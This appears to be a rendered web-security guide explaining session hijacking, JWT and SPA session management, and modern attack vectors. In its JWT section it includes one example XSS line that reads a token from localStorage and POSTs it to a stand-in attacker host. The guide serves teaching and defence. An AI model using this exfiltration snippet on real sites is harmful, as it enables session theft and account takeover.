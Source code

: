 
# The Complete 2025 Guide to Session Hijacking & Cookie Security ..2025..

Session hijacking remains one of the most prevalent and dangerous web application attacks in 2025. With the explosion of cloud services, mobile applications, 
and remote work, understanding and preventing session attacks has become more critical than ever.

## What Are Sessions in 2025?

Modern web applications handle sessions differently than they did a decade ago:

### Traditional Session Management
- **Server-side sessions**: Session data stored on the server, referenced by session ID
- **Cookie-based**: Session ID stored in HTTP cookies
- **Stateful**: Server maintains session state

### Modern Session Management (2025)
- **JWT tokens**: Self-contained tokens with embedded claims
- **Stateless authentication**: No server-side session storage
- **Multiple token types**: Access tokens, refresh tokens, ID tokens
- **Distributed sessions**: Sessions shared across microservices
- **Mobile-first**: Session management for native apps and SPAs

## Current Session Hijacking Landscape (2025)

### Why It's Still Dangerous
- **Cloud-first architecture**: More attack surface with distributed systems
- **API-driven applications**: RESTful APIs often lack proper session protection
- **Mobile applications**: Additional vectors through mobile-specific vulnerabilities
- **Remote work**: Increased use of public WiFi and unsecured networks
- **IoT devices**: Poorly secured devices with session management flaws

## Modern Attack Vectors

### 1. **JWT Token Attacks**
```javascript
// Vulnerable JWT implementation
localStorage.setItem('token', jwt); // Stored in localStorage - vulnerable to XSS

// Modern attack - stealing JWT via XSS
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: localStorage.getItem('token')
});
```

### 2. **SPA (Single Page Application) Attacks**
- **Token storage vulnerabilities**: localStorage, sessionStorage exploitation
- **CSRF with SPAs**: Cross-site request forgery in React/Vue/Angular apps
- **Client-side routing attacks**: Manipulating client-side state
